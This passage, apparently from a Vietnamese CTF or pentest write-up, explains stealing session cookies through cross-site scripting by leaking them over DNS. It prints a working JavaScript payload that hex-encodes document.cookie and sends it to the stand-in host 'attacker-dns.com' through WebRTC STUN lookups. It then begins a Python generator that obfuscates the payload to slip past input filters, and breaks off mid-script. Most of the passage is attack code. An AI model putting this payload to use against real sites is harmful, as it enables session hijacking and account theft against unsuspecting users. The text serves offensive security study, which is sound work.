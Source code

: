 Nhưng ở đây còn 1 kỹ thuật là lấy cookie thông qua DNS. 

Nếu mình truyền payload XSS mà nó trigger thông qua DNS server, trả về các log của DNS trên server của mình.

Ở đây mình viết 1 script như sau:

```javascript!
function convertToHex(str) {
    var hex = "";
    for (var i = 0; i < str.length; i++) {
        hex += str.charCodeAt(i).toString(16);
    }
    return hex;
}

function leakCookieViaRTC(domain, cookie) {
    var sectionLength = Math.ceil(cookie.length / 2); 
    for (var i = 0; i < 2; i++) {
        var section = cookie.slice(i * sectionLength, (i + 1) * sectionLength);
        if (section) {
            var hexSection = convertToHex(section);
            var p = new RTCPeerConnection({
                iceSevers: [{
                    urls: `stun:${hexSection}.${domain}`
                }]
            });

            p.createDataChannel("d");
            p.setLocalDescription();
        }
    }
}

leakCookieViaRTC("attacker-dns.com", document.cookie)
```

Giải thích script trên: 
- Hàm `convertToHex()` là chuyển đổi các ký tự ascii sang hexa dạng 16 
- Hàm `leakCookieViaRTC(domain, cookie)` nhận vào hai tham số là `domain` và `cookie`:
    - Đầu tiên nó làm là chia cookie ra hai phần sau đó convert sang hex 
    - Thứ hai là nếu có trả về section thì convert nó sang hex sau đó thực hiện kết nối tới DNS server attacker để nó phân giải tên miền, nhưng ko có nên sẽ trả về log trên server. 
    - Được chạy trong vòng lặp vì đã chia cookie ra làm hai phần 

Như vậy là xong phần trả session cookie về DNS server của mình kiểm soát. Để có bypass và tránh gây lỗi khi nhập trên form của ứng dụng thì mình cần viết 1 script và cũng để sinh payload lun. 

```javascritp!

def to_ascii_codes(string):
    return "".join(str(hex(ord(c))) for c in string).replace("0x", "\\x").replace("\\xa", "\\x0a")

def xss():
    leak_cookie = f"""
    function convertToHex(str) {{
        var hex = "";
        for (var i = 0; i < str.length; i++) {{
            hex += str.charCodeAt(i).toString(16);
        }}
        return hex;
    }}

    function leakCookieViaRTC(domain, cookie) {{
        var sectionLength = Math.ceil(cookie.length / 2); 
        for (var i = 0; i < 2; i++) {{
            var section = cookie.slice(i * sectionLength, (i + 1) * sectionLength);
```